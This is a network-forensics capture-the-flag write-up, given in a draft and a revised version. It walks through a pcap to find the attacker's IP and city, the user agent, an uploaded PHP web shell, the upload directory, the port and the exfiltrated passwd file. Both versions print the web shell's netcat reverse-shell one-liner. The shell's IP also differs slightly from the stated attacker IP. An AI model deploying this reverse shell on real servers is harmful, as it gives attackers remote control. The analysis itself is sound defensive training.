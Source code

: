 Category: Network Forensics

> THIS NEEDS TO BE REVISED FIRST
#### Scenario
An anomaly was discovered within our company's intranet as our Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prapared a pcap file with critical network traffic for analysis for the security team, and you have been tasked with analyzing the pcap

1. Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?
- This is a simple case of geolocating using IP addresses. On Wireshark, I found the attackers IP by going to the Statistics => Conversations => IPv4. 117.11.88.128 is the IP address of the attacker. Plugging this into ipgeolocation.io. I get the country of chine and the city of **Tianjin**.
  
  
2. Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?
   -  The user-agent is found the HTTP traffic, I picked a packet that has the GET method, because its the first thing I saw--you can pick any HTTP traffic that has a HTTP header in request. You will see in header of the request, in the user-agent line a value of **Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0**
     
3. We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?
	   - Going to the Protocol Hierarchy, I immediately saw the "Compuserve GIF" and remembered that the traffic was filled with request for different resources in the site, taking into account the question where it stated a file was uploaded, I immediately extracted all the files in the pcap file. Looking around I can see os command injections being done. Looking at the "upload(2).php" file we can see that a filename of "image.png.php" was uploaded and a php line of code with the function of executing a shell and using netcat to connect to the attackers IP address and a port of 8080. This essentially establishes a backdoor, allowing the attacker to interact with the compromised server remotely
	- line of code 
	```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f");
```
     
     
4. Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store uploaded files?
	- Looking further in the files extracted, in the upload(2) html response, we can see that a document was moved to the `http://shoporoma.com/reviews/uploads/` directory, which indicates that the malicious script was stored there. 

5. Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?. 
	 - This was straightforward as we already found out form the php snippet that the attacker uses leverages port 8080
6. Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?
	- Going back to our extracted files, as mentioned earlier, there were logs of os commands being executed by the attacker. From finding out the current directory to getting the passwd file, which was the goal of the attacker. 


## Summary
In this scenario, the attacker found a file upload vulnerability wherein they were able to upload a malicious php script(upload(2).php). With that script it then executed a shell which connected back to the attacker, allowing for backdoor access into the system. After gaining reverse shell access, the attacker performed some recon on the environment like what directory is the attacker on, what are the files in that directory and the username of the account in the system. After that he exfiltrated the passwd file containing passwords for different accounts. 


# Revised
#### Scenario
An anomaly was discovered within our company's intranet when the Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis by the security team, and you have been tasked with analyzing the pcap.

1. Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?
   - This is a simple case of geolocating using IP addresses. In Wireshark, I found the attacker's IP by going to Statistics => Conversations => IPv4. The IP address of the attacker is 117.11.88.128. Plugging this into ipgeolocation.io, I get the country of China and the city of **Tianjin**.

2. Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?
   - The user-agent is found in the HTTP traffic. I selected a packet with the GET method because it's the first thing I saw; you can choose any HTTP traffic with an HTTP header in the request. In the header of the request, in the user-agent line, there is a value of **Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0**.

3. We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?
   - Going to the Protocol Hierarchy, I immediately saw "Compuserve GIF" and remembered that the traffic was filled with requests for different resources on the site. Considering the question stating that a file was uploaded, I immediately extracted all the files in the pcap file. Looking around, I can see OS command injections being done. Looking at the "upload(2).php" file, we can see that a filename of "image.png.php" was uploaded, containing PHP code with the function of executing a shell and using Netcat to connect to the attacker's IP address on port 8080. This essentially establishes a backdoor, allowing the attacker to interact with the compromised server remotely.
   - Line of code:
     ```php
     <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f");
     ```

4. Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store uploaded files?
   - Looking further into the extracted files, in the upload(2) HTML response, we can see that a document was moved to the `http://shoporoma.com/reviews/uploads/` directory, indicating that the malicious script was stored there.

5. Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?
   - This was straightforward, as we already found out from the PHP snippet that the attacker leverages port 8080.

6. Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?
   - Going back to our extracted files, as mentioned earlier, there were logs of OS commands being executed by the attacker. From finding out the current directory to getting the passwd file, which was the goal of the attacker.

## Summary
In this scenario, the attacker found a file upload vulnerability wherein they were able to upload a malicious PHP script (upload(2).php). With that script, it then executed a shell that connected back to the attacker, allowing for backdoor access into the system. After gaining reverse shell access, the attacker performed reconnaissance on the environment, determining the directory, files, and the username of the account in the system. Afterward, the attacker exfiltrated the passwd file containing passwords for different accounts.